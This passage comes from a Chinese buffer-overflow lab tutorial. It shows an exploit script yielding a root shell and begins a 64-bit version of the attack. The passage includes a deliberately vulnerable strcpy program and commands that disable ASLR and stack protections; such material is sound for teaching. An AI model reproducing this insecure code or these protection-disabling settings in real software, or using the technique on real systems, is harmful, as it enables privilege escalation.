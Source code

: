 ### 5.运行 exploit 文件

现在来运行 exploit.py 文件来生成 badfile 文件，接着运行 stack 二进制程序，**下面的结果显示得到了 # 提示符，这表明已经成功获取了 root 权限**。使用 id 命令能够验证当前用户的有效用户。

```console{.line-numbers}
$chmod u+x exploit.py
$python3 exploit.py
./stack
# id
uid=1000(seed) gid=1000(seed) euid=0(root) .....
```

## 七、在 64 位虚拟机上实施缓冲区溢出攻击

### 1.在 64 位机器上调试程序找到入口地址

在 VMware® Workstation 16 Player 中运行 Linux version 6.8.0 操作系统，然后使我们将 stack.c 的代码修改成如下形式：

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char* str) {
    unsigned long rbp_value;
    __asm__ volatile ("movq %%rbp, %0" : "=r" (rbp_value));

    char buffer[100];
    printf("%p 0x%lx\n", buffer, rbp_value);
    /* the following statement has a buffer overflow problem. */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv) {
    char str[400];
    FILE* badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);

    printf("returned properly\n");
    return 1;
}
```

**<font color="red">因为使用 gdb 调试时，foo 函数的栈布局和真正运行时 foo 函数的栈布局可能不一样</font>**，因此在 stack.c 使用内联汇编和 printf 语句，打印出 foo 函数运行时 buffer 数组的地址以及 %rbp 寄存器的值。接着使用如下命令行将 stack.c 代码文件编译成二进制程序 stack，并且创建空白的 badfile 文件。最后运行 stack 程序的结果如下：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0

monica@xvm:~/csapp/chapter3$ gcc -z execstack -fno-stack-protector -o stack stack.c

monica@xvm:~/csapp/chapter3$ touch badfile

monica@xvm:~/csapp/chapter3$ ./stack
0x7fffffffdd20 0x7fffffffdd90
段错误
```
